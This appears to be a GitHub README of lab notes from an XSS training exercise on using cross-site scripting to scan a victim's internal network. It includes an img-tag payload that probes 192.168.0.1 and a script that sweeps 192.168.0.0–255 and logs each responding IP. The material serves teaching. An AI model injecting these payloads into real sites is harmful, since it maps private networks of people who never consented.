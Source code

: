 # Using XSS for IP and Port Scanning

- Cross-site scripting can be used for all sorts of mischief, one being the ability to scan a victims internal network and look for open ports. 

- If an attacker is interested in what other devices are connected on the network, they can use ***Javascript*** to make requests to a range of **IP addresses** and determine which one responds.


# Task:

**1. Understand the basic proof of concept script.**

**2. Then create a file on your computer with the script, modify it to suit your network and run it. See if it picks up any of your devices that has a webserver running.**

### On the XSS Playground, go to the IP/Port scanning tab and review a script to scan the internal network.

- On the **application layer** your browser has no notion of **internal and external IP** addresses. So any website is able to tell your browser to request a resource from your internal network.

- For example, a website could try to find if your router has a web interface at **<ins>192.168.0.1</ins>** by:

  ```
  <img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
  ```

- Please keep in mind this is a [proof of concept](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/08%20-%20XSS%20for%20IP%20and%20Port%20Scanning/Used%20Scripts/1.%20POC_Used.js) and there are many factors that will effect results such as response times, firewall rules, cross origin policies and more. 
- Our browsers can conduct a basic network scan and infer about existing IP's, hostnames and services. As this is a learning exercise assume the factors do not apply here.

- **The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255**

  ```
  <script>
  for (let i = 0; i < 256; i++) 
  { 
    let ip = '192.168.0.' + i        
    let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
    document.body.innerHTML += code 
  }
  </script> 
  ```
- [Scanner script with explanation](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/08%20-%20XSS%20for%20IP%20and%20Port%20Scanning/Used%20Scripts/2.%20Scanner_Used.js)

- After you've found an **valid IP** you can then use the same method above and include a port number.
- However, the method described here only works with web servers (as its looking for the favicon image). 

- A more detailed port scanner can be found [here](https://github.com/aabeling/portscan). 
- As previously stated, this page is a proof of concept, you can create scripts which have much more capability.


